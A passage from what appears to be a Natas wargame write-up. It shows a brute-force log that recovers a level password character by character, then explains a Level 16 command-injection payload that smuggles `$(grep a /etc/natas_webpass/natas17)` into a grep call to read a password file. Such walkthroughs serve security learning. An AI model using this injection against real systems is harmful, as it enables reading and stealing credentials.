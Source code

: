```
Using: 03569acehijmnpqtwBEHI
Using: 03569acehijmnpqtwBEHIN
Using: 03569acehijmnpqtwBEHINO
Using: 03569acehijmnpqtwBEHINOR
Using: 03569acehijmnpqtwBEHINORW
All characters used. Starting brute force... Grab a coffee, might take a while!
Password: W*******************************
Password: Wa******************************
Password: WaI*****************************
Password: WaIH****************************
Password: WaIHE***************************
Password: WaIHEa**************************
Password: WaIHEac*************************
Password: WaIHEacj************************
Password: WaIHEacj6***********************
Password: WaIHEacj63**********************
Password: WaIHEacj63w*********************
Password: WaIHEacj63wn********************
Password: WaIHEacj63wnN*******************
Password: WaIHEacj63wnNI******************
Password: WaIHEacj63wnNIB*****************
Password: WaIHEacj63wnNIBR****************
Password: WaIHEacj63wnNIBRO***************
Password: WaIHEacj63wnNIBROH**************
Password: WaIHEacj63wnNIBROHe*************
Password: WaIHEacj63wnNIBROHeq************
Password: WaIHEacj63wnNIBROHeqi***********
Password: WaIHEacj63wnNIBROHeqi3**********
Password: WaIHEacj63wnNIBROHeqi3p*********
Password: WaIHEacj63wnNIBROHeqi3p9********
Password: WaIHEacj63wnNIBROHeqi3p9t*******
Password: WaIHEacj63wnNIBROHeqi3p9t0******
Password: WaIHEacj63wnNIBROHeqi3p9t0m*****
Password: WaIHEacj63wnNIBROHeqi3p9t0m5****
Password: WaIHEacj63wnNIBROHeqi3p9t0m5n***
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nh**
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm*
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
Completed!
```

### Level 16
Very similar to last level. They put some filtering, but we can still use some ideas from here, http://wiki.bash-hackers.org/syntax/expansion/cmdsubst. Injecting `$(grep a /etc/natas_webpass/natas17)` returns the whole content of the dictionary as it would run this `passthru("grep -i \"$(grep a /etc/natas_webpass/natas17)\" dictionary.txt");`. The reason for this is because, if `$(grep a /etc/natas_webpass/natas17)` is true, it will return a. So `grep -i aFriday dictionary.txt` would NOT be in the dictionary and return nothing meaning that a is a password.

To take the other case, if `$(grep a /etc/natas_webpass/natas17)` is false (meaning it cannot find a in natas17, so the pass doesn't contain a). Then it will return nothing and Friday will be found in the dictionary and we get some output.
